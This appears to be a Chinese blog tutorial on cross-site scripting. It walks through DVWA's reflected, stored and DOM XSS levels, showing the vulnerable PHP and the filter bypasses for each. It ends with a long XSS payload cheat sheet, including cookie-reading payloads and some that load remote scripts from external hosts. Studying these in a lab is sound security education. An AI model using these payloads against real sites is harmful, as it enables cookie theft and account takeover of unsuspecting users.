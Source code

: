 ```yaml
---
title: XSS简介
date: 2019-3-18
tags: XSS

---
```



> 跨站脚本攻击-XSS,全称Cross site scripting，特殊的注入攻击，相当于在代码中注入恶意的脚本，当用户访问页面时，在浏览器中触发并解析代码，完成攻击。xss根据不同的攻击形式分为反射型xss、存储型xss、Dom型Xss。

**1.反射型XSS：非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。**

**2.存储型XSS：存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie（虽然还有种DOM型XSS，但是也还是包括在存储型XSS内）。**

**3.DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。**

_具体内容可以看`https://www.zhihu.com/question/26628342`个人觉得说的还不错_



### 反射型xss

- low 

```
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
``` 

_显然没有做任何的防护措施_

**攻击方法：**

```
<script>alert('XSS')</script> 
'><script>alert(document.cookie)</script>
<IFRAME SRC=javascript:alert(‘XSS’)></IFRAME>//框架注入
"> <BODY ONLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><" 
<A HREF=http://127.0.0.1/phpinfo.php>link</A> //链接注入
<img src=1 onerror=alert(2)> //图片注入
```
**显然低等级的对以上注入方法都是可以做到的**

- medium

```
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
} 
```

**我们可以看到中等级过滤了<script>,这时我能想到的有两种解决办法：**

1.大小写替换，诸如<SCRiPt>之类的

2.写两次：<scr<script>ipt>替换

—除了含有script的需要注意一下，其他注入方法可以正常执行—

- high

```
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
} 
```

**这里是用正则表达式做替换，使用通配符，对script相关的替换掉，但对事件型的构造语句没有进行过滤,如：**

```
<A HREF=http://127.0.0.1/phpinfo.php>link</A> //链接注入
<img src=1 onerror=alert(2)> //图片注入
```

- impossible 

```
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>"; 
```

**严格，加了token，htmlspecialchars（）可对输入参数进行实体转义，输入的<,>等都是会当做实体字符输出,目前并没有想到绕过的办法**

### 存储型XSS

**首先先列出几种攻击方法：**

```
<script>alert('XSS')</script> 
'><script>alert(document.cookie)</script>
<IFRAME SRC=javascript:alert(‘XSS’)></IFRAME>//框架注入
"> <BODY ONLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><" 
<A HREF=http://127.0.0.1/phpinfo.php>link</A> //链接注入
<img src=1 onerror=alert(2)> //图片注入
```

- low 

```
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
    //mysql_close();
}

```

**显然没有经过防护所有的攻击手段都是可行的**

- medium 

```
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );
    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
} 
```

**这里message的防住入做的很棒：**

addslashes() 函数返回在预定义字符之前添加反斜杠的字符串
htmlspecialchars() 函数把预定义的字符转换为 HTML 实体

当然，虽然message不太好搞，但是name的防护措施只做了一个str_replace( '<script>', '', $name )，根据反射型xss的经验，可以对script进行大小写和双写的绕过。虽然name是有长度限制的，但只要我们再进行一下抓包改包发包即可完成，具体过程不再赘述。

- high

```
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?> 
```
**有了medium处的教训，这里不再把精力浪费在message上。对于name处的注入可参照反射型xss的high等级。**

### Dom型XSS

- Low 

```
<?php

# No protections, anything goes

?> 
```

**对于低等级，没有任何防护措施，我们选择直接xss**

`http://localhost/DVWA-master/vulnerabilities/xss_d/?default=<script>alert('xss')</script>`

- medium

```
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?> 
```

**可以看到这里只要一出现'<script'就会自动替换成默认值：‘English’，并且是区分大小写的。所以这里换一种方法，使用不含<script>的注入方式**

**如果直接用<img src=1 onerror=alert('xss')>不会出现，这里可以通过查看源代码闭合标签从而达到我们想要的效果**

`http://localhost/DVWA-master/vulnerabilities/xss_d/?default=></option></select><img src=1 onerror=alert('xss')>`

### XSS注入常用语句

```
<script>alert('hello，gaga!');</script> //经典语句，哈哈！
>"'><img src="javascript.:alert('XSS')">
>"'><script>alert('XSS')</script>
<table background='javascript.:alert(([code])'></table>
<object type=text/html data='javascript.:alert(([code]);'></object>
"+alert('XSS')+"
'><script>alert(document.cookie)</script>
='><script>alert(document.cookie)</script>
<script>alert(document.cookie)</script>
<script>alert(vulnerable)</script>
<script>alert('XSS')</script>
<img src="javascript:alert('XSS')">
%0a%0a<script>alert(\"Vulnerable\")</script>.jsp
%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html
<script>alert('Vulnerable')</script>
a.jsp/<script>alert('Vulnerable')</script>
"><script>alert('Vulnerable')</script>
<IMG SRC="javascript.:alert('XSS');">
<IMG src="/javascript.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"("XSS")>
<IMG SRC="jav	ascript.:alert('XSS');">
<IMG SRC="jav ascript.:alert('XSS');">
<IMG SRC="jav ascript.:alert('XSS');">
"<IMG src="/java"\0script.:alert(\"XSS\")>";'>out
<IMG SRC=" javascript.:alert('XSS');">
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
<BODY BACKGROUND="javascript.:alert('XSS')">
<BODY ONLOAD=alert('XSS')>
<IMG DYNSRC="javascript.:alert('XSS')">
<IMG LOWSRC="javascript.:alert('XSS')">
<BGSOUND SRC="javascript.:alert('XSS');">
<br size="&{alert('XSS')}">
<LAYER SRC="http://xss.ha.ckers.org/a.js"></layer>
<LINK REL="stylesheet"HREF="javascript.:alert('XSS');">
<IMG SRC='vbscript.:msgbox("XSS")'>
<META. HTTP-EQUIV="refresh"CONTENT="0;url=javascript.:alert('XSS');">
<IFRAME. src="/javascript.:alert"('XSS')></IFRAME>
<FRAMESET><FRAME. src="/javascript.:alert"('XSS')></FRAME></FRAMESET>
<TABLE BACKGROUND="javascript.:alert('XSS')">
<DIV STYLE="background-image: url(javascript.:alert('XSS'))">
<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html');">
<DIV STYLE="width: expression(alert('XSS'));">
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE='xss:expre\ssion(alert("XSS"))'>
<STYLE. TYPE="text/javascript">alert('XSS');</STYLE>
<STYLE. TYPE="text/css">.XSS{background-image:url("javascript.:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE. type="text/css">BODY{background:url("javascript.:alert('XSS')")}</STYLE>
<BASE HREF="javascript.:alert('XSS');//">
getURL("javascript.:alert('XSS')")
a="get";b="URL";c="javascript.:";d="alert('XSS');";eval(a+b+c+d);
<XML SRC="javascript.:alert('XSS');">
"> <BODY NLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
<SCRIPT. SRC="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>
<IMG SRC="javascript.:alert('XSS')"
<SCRIPT. a=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT.=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT. a=">"''SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT."a='>'"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
```
